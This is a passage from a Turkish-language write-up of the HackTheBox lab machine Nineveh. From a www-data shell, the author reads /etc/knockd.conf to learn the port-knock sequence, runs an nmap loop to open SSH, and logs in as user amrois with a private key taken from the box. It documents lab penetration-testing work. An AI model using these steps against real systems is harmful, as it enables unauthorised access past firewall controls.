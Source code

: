 ```
```

Public key bir kullanıcı adı verir, amrois:

```
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCuL0RQPtvCpuYSwSkh5OvYoY//CTxgBHRniaa8c0ndR+wCGkgf38HPVpsVuu3Xq8fr+N3ybS6uD8Sbt38Umdyk+IgfzUlsnSnJMG8gAY0rs+FpBdQ91P3LTEQQfRqlsmS6Sc/gUflmurSeGgNNrZbFcNxJLWd238zyv55MfHVtXOeUEbkVCrX/CYHrlzxt2zm0ROVpyv/Xk5+/UDaP68h2CDE2CbwDfjFmI/9ZXv7uaGC9ycjeirC/EIj5UaFBmGhX092Pj4PiXTbdRv0rIabjS2KcJd4+wx1jgo4tNH/P6iPixBNf7/X/FyXrUsANxiTRLDjZs5v7IETJzVNOrU0R amrois@nineveh.htb
```


### Examine Port Knocking

Shell'den www-data olarak çıkan diğer ilginç şey ise knockd prosesidir:

```
www-data@nineveh:/$ ps auxww
...[snip]...
root      1334  1.1  0.2   8756  2228 ?        Ss   Apr10  15:29 /usr/sbin/knockd -d -i ens33
...[snip]...
```

**knockd**, port knocking için bir daemon'dur ve belirli portlara sırasıyla erişildiğinde bazı güvenlik duvarı kurallarını ayarlar. Yapılandırma dosyasını **/etc/knockd.conf** yolunda bulabilirim.

```
www-data@nineveh:/$ cat /etc/knockd.conf 
[options]
 logfile = /var/log/knockd.log
 interface = ens33

[openSSH]
 sequence = 571, 290, 911 
 seq_timeout = 5
 start_command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn

[closeSSH]
 sequence = 911,290,571
 seq_timeout = 5
 start_command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn
```


Bu, 571, 290 ve ardından 911 numaralı portlara sırasıyla SYN paketleri göndererek, hepsini 5 saniye içinde yaparak SSH'yi açabileceğimi söylüyor. Bunu yaptığımda, IP adresimi port 22'ye erişim için izin veren bir kural ekleyecek.


### Knock

Bu wiki sayfası port knock için nmap kullanımına iyi bir örnek vermektedir. Bunu bir satır olarak yazacağım:

```
root@kali# for i in 571 290 911; do
> nmap -Pn --host-timeout 100 --max-retries 0 -p $i 10.10.10.43 >/dev/null
> done; ssh -i ~/keys/id_rsa_nineveh_amrois amrois@10.10.10.43
Ubuntu 16.04.2 LTS
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

133 packages can be updated.
66 updates are security updates.
```